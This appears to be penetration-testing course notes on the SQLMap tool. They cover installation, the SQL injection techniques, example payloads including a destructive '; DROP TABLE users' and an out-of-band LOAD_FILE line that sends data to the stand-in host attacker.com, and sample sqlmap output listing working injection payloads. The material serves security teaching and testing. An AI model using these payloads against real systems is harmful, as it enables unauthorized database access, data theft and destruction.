 # SQLMap Overview

SQLMap is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws. 

python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'

# SQLMap Installation

sudo apt install sqlmap

OR

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

python sqlmap.py

# Supported SQL Injection Types

sqlmap -hh
B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries

## Boolean-based blind SQL Injection
AND 1=1

## Error-based SQL Injection
AND GTID_SUBSET(@@version,0)

## UNION query-based
UNION ALL SELECT 1,@@version,3

## Stacked queries
; DROP TABLE users

## Time-based blind SQL Injection
AND 1=IF(2>1,SLEEP(5),0)

## Inline queries
SELECT (SELECT @@version) from

## Out-of-band SQL Injection
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

# Example of sqlmap use

sqlmap -u "http://www.example.com/vuln.php?id=1" --batch

Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---


